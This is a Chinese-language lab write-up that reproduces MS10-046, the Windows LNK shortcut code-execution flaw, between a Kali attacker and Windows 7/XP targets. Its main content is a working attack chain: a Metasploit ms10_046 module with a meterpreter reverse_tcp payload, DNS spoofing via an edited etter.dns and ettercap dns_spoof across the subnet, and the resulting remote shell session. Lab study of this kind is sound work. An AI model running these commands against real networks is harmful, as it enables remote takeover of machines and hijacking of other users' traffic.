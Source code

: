 ## MS10-046漏洞复现

### 一、**漏洞概述**

​	**Microsoft Windows快捷方式LNK文件自动执行代码漏洞。**

​	Windows支持使用快捷方式或LNK文件。LNK文件是指向本地文件的引用，点击LNK文件与点击快捷方式所制定的目标具有相同效果。Windows没有正确的处理LNK文件，特制的LNK文件可能导致Windows自动执行快捷方式文件所指定的代码。这些代码可能位于USB驱动、本地或远程文件系统、光驱或其他位置，使用资源管理器查看了LNK文件所在的位置就足以触发这个漏洞。

​	**受影响系统包括：Windows XP SP3/SP2、Vista SP2/SP1、Server**  **、2008 R2/SP2和Windows 7**。

### 二、开始实验

#### 1.实验环境

|   靶机   |     IP地址     |
| :------: | :------------: |
|   kali   | 192.168.88.133 |
| windows7 | 192.168.88.140 |

> kali和win7互相ping，确保两台机器处于同一网段下

![1726391707153](assets/1726391707153.png)

![1726391736372](assets/1726391736372.png)

#### 2.漏洞复现

```
2.1Kali中输入命令msfconsole进入MSF攻击框架。
```

![1726391879924](assets/1726391879924.png)

```
2.2配置监听模块
search ms10_046
use 0
set payload windows/meterpreter/reverse_tcp	#配置攻击载荷payload
set SRVHOST 192.168.88.133	#Kali的IP地址
set LHOST 192.168.88.133	#Kali的IP地址（反向连接地址）
show options	#查看配置信息
run	#开始攻击
```

![1726392046774](assets/1726392046774.png)

![1726392422350](assets/1726392422350.png)

![1726392810814](assets/1726392810814.png)

```
2.3配合使用ettercap进行DNS欺骗
cd /etc/ettercap
ls
vim etter.dns 
*com A 192.168.88.133 #将.com后缀的域名解析成kali的IP地址192.168.88.133。
```

![1726393592801](assets/1726393592801.png)

![1726393700188](assets/1726393700188.png)

```
2.4开启ettercap劫持整个网段
ettercap -T -q -i eth0 -P dns_spoof

说明：
-T 使用基于文本界面
-q 启动安静模式（不回显的意思）
-i 指定网卡
-P 使用插件，这里我们使用的是dns_spoof（DNS欺骗插件）。
//// 通常用于指定目标。如果不需要限定目标，//即可表示所有主机。
```

![1726401056753](assets/1726401056753.png)

![微信截图_20240915195425](assets/微信截图_20240915195425.png)

```
2.5Windows7已经弹出一个文件夹，其中有一个【.dll文件】和一个【快捷方式】，双击快捷方式，就可以获得windows7控制权。
这里漏洞利用失败了没有反弹shell但是有主机反馈信息，可能版本高的原因，换了windowsXP就可以了，步骤是一样的。
输入命令【sessions -1】进入到WindowsXP系统的【meterpreter】控制界面。
```

![1726405102484](assets/1726405102484.png)

![1726404464377](assets/1726404464377.png)

![1726405457455](assets/1726405457455.png)

